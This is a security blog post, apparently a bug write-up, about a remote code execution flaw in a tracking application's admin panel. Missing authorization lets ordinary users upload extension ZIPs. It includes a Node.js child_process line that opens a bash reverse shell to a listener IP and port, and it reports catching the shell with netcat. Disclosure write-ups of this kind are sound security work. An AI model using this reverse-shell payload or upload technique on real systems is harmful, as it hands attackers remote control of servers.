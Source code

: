```yaml
---
layout: post
title:  "RCE on Application’s Tracking Admin Panel"
date:   2023-09-03 21:39:54 +0530
---
```


In this blog post, we’ll explore some intriguing scenarios where the add extension functionality in a particular subdomain can be exploited to enable a Remote Code Execution vulnerability. The application in question is a tracking system that can monitor study hours, walking distance, and, if using the Android version, application usage levels. By delving into the specifics of this potential vulnerability and its potential impact, we hope to provide valuable insights for both developers and security professionals.

![]({{ site.baseurl }}/assets/images/rce-1.png)

## Vulnerability in Tracking Application’s Admin Panel

A concerning vulnerability has been identified in the admin panel of the Tracking application. Specifically, when creating an extension, the application fails to implement proper authorization checks for all users. This means that regular users can upload extensions without restriction via the admin panel, potentially leading to remote code execution. Addressing this vulnerability by implementing proper authorization checks is critical to preventing unauthorized access and maintaining the security of the application. It highlights the importance of implementing robust access controls and security measures to protect against potential exploits and vulnerabilities.
Carrying Out the File Upload Attack

In order to successfully submit an extension upload, we must first create two required file types: a JavaScript file containing the extension’s code and a JSON file containing metadata like the extension’s name, version and description. By compiling these two files along with any other necessary files into a ZIP archive and uploading that, our extension is more likely to pass the initial review process due to being properly organized and containing all required files

Now, let’s write some javascript code that will send the reverse shell to our listening server

```js
require(‘child_process’).exec(‘bash -c “bash -i >& /dev/tcp/192.168.0.143/9999 0>&1"’) 
```

In the provided code snippet, we utilize the Node.js child process module. Node.js typically operates as a single-threaded, non-blocking system, which can struggle with increasing workloads. However, the child_process module solves this issue by allowing for the spawning of child processes. These child processes can communicate with each other using a built-in messaging system.

We make use of the exec() child process to execute system commands, specifically to establish a reverse TCP connection to our listener server. This allows remote access to the system and the potential exploitation of vulnerabilities. It is critical to note that such actions should only be performed with permission and in a controlled testing environment to avoid any negative impact on the system or its users.

To create an extension for the Tracking application, a metadata file is required. This file contains essential information about the extension, such as its UUID, name, and description. Here is a basic example that we can use:

```json
{
"name": "Test"
}
```

This metadata file is necessary for the proper functioning of the extension and must be included when uploading the extension to the application. Ensuring that all required files and information are included when creating and uploading extensions is critical to maintaining the security and integrity of the application.

It is important to note that the admin console of the Tracking application can be accessed by authenticated users through the subdirectory `/admin`. However, as there is no proper authentication mechanism in place for the admin panel, low-privileged users may also be able to access it. This highlights the significance of implementing appropriate security measures and access controls to prevent unauthorized access and maintain the security of the application.

![]({{ site.baseurl }}/assets/images/rce-2.png)

The Tracking application’s admin panel includes an option to upload extensions via the extension tab in the frontend. It is important to note that the upload functionality only accepts zip files and does not support any other file extensions. This restriction is intended to prevent potential security vulnerabilities that could arise from the upload of unsupported file types.

![]({{ site.baseurl }}/assets/images/rce-3.png)

Let’s get down to business! We’re going to start a listening server on our local machine, upload a malicious zip file to the target application through the upload extension functionality, and voila! We’ve got ourselves a reverse shell on our netcat listener.

![]({{ site.baseurl }}/assets/images/rce-4.png)

As a result, you can see we got a reverse shell from daemon server of the application